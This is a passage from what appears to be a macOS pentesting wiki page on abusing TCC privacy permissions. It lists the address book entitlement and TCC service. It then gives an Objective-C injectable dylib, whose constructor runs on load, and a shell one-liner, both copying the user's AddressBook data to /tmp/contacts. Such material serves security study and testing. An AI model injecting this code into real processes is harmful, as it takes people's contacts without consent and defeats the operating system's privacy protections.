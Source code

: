 * **Entitlement**: `com.apple.security.personal-information.addressbook`
* **TCC**: `kTCCServiceAddressBook`

{% tabs %}
{% tab title="ObjetiveC" %}
Copy `$HOME/Library/Application Support/AddressBook` to `/tmp/contacts`.

```objectivec
#include <syslog.h>
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#import <Foundation/Foundation.h>

// gcc -dynamiclib -framework Foundation -o /tmp/inject.dylib /tmp/inject.m

__attribute__((constructor))
void myconstructor(int argc, const char **argv)
{  
    freopen("/tmp/logs.txt", "w", stderr); // Redirect stderr to /tmp/logs.txt

    NSFileManager *fileManager = [NSFileManager defaultManager];
    NSError *error = nil;    

    // Get the path to the user's Pictures folder
    NSString *picturesPath = [NSHomeDirectory() stringByAppendingPathComponent:@"Library/Application Support/AddressBook"];
    NSString *tmpPhotosPath = @"/tmp/contacts";

    // Copy the contents recursively
    if (![fileManager copyItemAtPath:picturesPath toPath:tmpPhotosPath error:&error]) {
        NSLog(@"Error copying items: %@", error);
    }

    NSLog(@"Copy completed successfully.", error);

    fclose(stderr); // Close the file stream
}
```
{% endtab %}

{% tab title="Shell" %}
Copy `$HOME/Library/Application Support/AddressBook` to `/tmp/contacts`.

```bash
cp -r "$HOME/Library/Application Support/AddressBook" "/tmp/contacts"
```
{% endtab %}
{% endtabs %}

### Calendar

* **Entitlement**: `com.apple.security.personal-information.calendars`
* **TCC**: `kTCCServiceCalendar`
